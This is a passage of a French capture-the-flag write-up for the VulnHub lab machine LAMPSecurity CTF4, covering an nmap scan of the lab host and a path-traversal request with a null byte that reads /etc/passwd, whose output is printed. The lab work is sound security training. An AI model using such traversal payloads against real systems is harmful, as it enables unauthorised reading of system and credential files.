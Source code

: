 ```yaml
---
title: "Solution du CTF LAMPSecurity: CTF4 de VulnHub"
tags: [CTF,VulnHub]
---
```


Une nouvelle traque commence
----------------------------

[LAMPSecurity: CTF4](http://vulnhub.com/entry/lampsecurity-ctf4,83/) est le 4ème CTF d'une série de CTFs en rapport avec les failles que l'on trouve souvent dans les web-apps PHP.  

[Le précédent CTF](http://devloop.users.sourceforge.net/index.php?article88/solution-du-ctf-lampsecurity-6) s'était montré très simple, nous allons voir si celui-ci corse un peu les choses.  

Pour info le système est une RHEL 3.  

Approcher la bête
-----------------

```plain
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-07 08:31 CEST
Nmap scan report for 192.168.1.99
Host is up (0.00017s latency).
Not shown: 65531 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 10:4a:18:f8:97:e0:72:27:b5:a4:33:93:3d:aa:9d:ef (DSA)
|_  2048 e7:70:d3:81:00:41:b8:6e:fd:31:ae:0e:00:ea:5c:b4 (RSA)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
| smtp-commands: ctf4.sas.upenn.edu Hello [192.168.1.3], pleased to meet you, --- snip ---, 
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO  --- snip ---
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 5 disallowed entries 
|_/mail/ /restricted/ /conf/ /sql/ /admin/
|_http-title:  Prof. Ehks 
631/tcp closed ipp
MAC Address: 00:0C:29:28:D9:61 (VMware)
Aggressive OS guesses: Linux 2.6.18 - 2.6.21 (98%), --- snip ---
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: ctf4.sas.upenn.edu; OS: Unix
```

Le fichier *robots.txt* nous donne dores et déjà un nombre important de pistes à étudier.  

A la racine web on trouve un site simple dans le style blog avec différentes sections. On remarque immédiatement le paramètre page.  

On teste quelques remontées d'arborescence et paff ! Le coup est parti tout seul.  

```plain
http://192.168.1.99/index.html?page=../../../../etc/passwd%00&title=Blog

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
--- snip ---
dstevens:x:500:506:Don Stevens:/home/dstevens:/bin/bash
achen:x:501:501:Andrew Chen:/home/achen:/bin/bash
pmoore:x:502:502:Phillip Moore:/home/pmoore:/bin/bash
jdurbin:x:503:503:James Durbin:/home/jdurbin:/bin/bash
sorzek:x:504:504:Sally Orzek:/home/sorzek:/bin/bash
ghighland:x:505:505:Greg Highland:/home/ghighland:/bin/bash
ossec:x:506:508::/var/ossec:/sbin/nologin
```